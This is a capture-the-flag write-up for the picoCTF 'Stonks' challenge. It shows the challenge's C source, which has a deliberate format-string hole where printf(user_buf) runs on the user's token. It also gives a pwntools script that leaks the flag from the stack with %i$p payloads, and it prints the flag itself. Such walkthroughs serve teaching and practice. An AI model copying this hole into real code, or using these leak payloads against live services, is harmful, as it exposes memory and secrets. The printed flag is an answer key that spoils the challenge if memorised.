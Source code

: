 # Stonks

> Solution: When you [connect](./connect) to the server, it prompts you:

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio

```


```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}

```

Viewing the [source code](./vuln.c), function `buy_stonks` at line 91, you can easily make out that this is clearly vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). If you choose `1) Buy some stonks!` from the prompt, it asks you for your api key. Testing a bunch of format strings I found that after the 15th DWORD, it actually starts to leak the flag. I tried `%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`. To actually exploit the vulnerability, I wrote a [python script](./solution.py).

```python
#!/usr/bin/env python3

import pwn

host, port = "mercury.picoctf.net", 33411
flag = []
flag_ascii = []
flag_offset_dword = 15
pwn.context.log_level = 'critical'

bad_chars = ['\x00', 'Î', 'ÿ']

for i in range(flag_offset_dword, 25):
	s = pwn.remote(host, port)
	s.sendlineafter("2) View my portfolio\n", "1")
	s.sendlineafter("What is your API token?\n", f'%{i}$p')
	s.recvuntil("Buying stonks with token:\n")
	response = s.recvline()
	try:
		flag_so_far = pwn.p32(int(response.decode(), base=16))
		flag_ascii += flag_so_far
	except SyntaxError:
		pass

for i in flag_ascii:
	flag.append(str(chr(int(i))))

print(''.join(flag).replace('\x00', '').replace('Î', '').replace('ÿ', '')) # picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
```

And there you go! You get the flag!!!

>picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}